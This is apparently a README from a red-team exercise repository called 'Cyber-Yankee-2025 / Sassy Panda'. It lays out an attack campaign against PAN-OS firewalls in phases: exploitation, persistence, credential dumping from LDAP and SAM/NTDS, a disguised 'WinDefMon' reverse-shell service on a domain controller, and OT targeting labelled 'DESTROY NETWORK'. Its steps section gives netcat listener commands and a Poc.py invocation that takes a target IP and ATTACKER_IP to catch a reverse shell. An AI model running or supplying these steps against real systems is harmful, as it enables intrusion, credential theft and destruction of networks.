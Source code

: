 # Cyber-Yankee-2025

### Sassy Panda

[Phase1](Phase1) - #PanOS Exploit

[Phase2](Phase2) - #PanOS Internal Reconnaissance & Enumeration

[Phase3](Phase3) - #PanOS Persistence

[Phase4](Phase4) - #PanOS proxy chains

---

[Phase5](Phase5) - #Discovery Inside Orange Space

[Phase6](Phase6) - #Credential Access (via LDAP, SAM/NTDS)


---

[Phase7](Phase7) - Lateral Movement and Persistence *DAY 3*

[Phase8](Phase8) - `WinDefMon` Reverse Shell Service on DC

[Phase9](Phase9) - OT Network Target Prep (Later Stage) *DAY 4* - DESTROY NETWORK


# Steps

1. initial access - setup initial listener (netcat/metasploit) with your (ANY PORT)
    run command: `nc -lvnp <RANDOM_HIGH_PORT_FROM_CREATED_SCRIPT>`
2. setup callback listener 63842
    run command: `nc -lvnp 63842`
3. run python:
    `python Poc.py https://<TARGET_PAL_WEB_INTERFACE_IP> <ATTACKER_IP> <ATTACKER_PORT>` # Random high port chosen in script from above
4. once exploit is through, look at initial listener and wait for callback to catch. once callback catches perform; `whoami`, `ifconfig`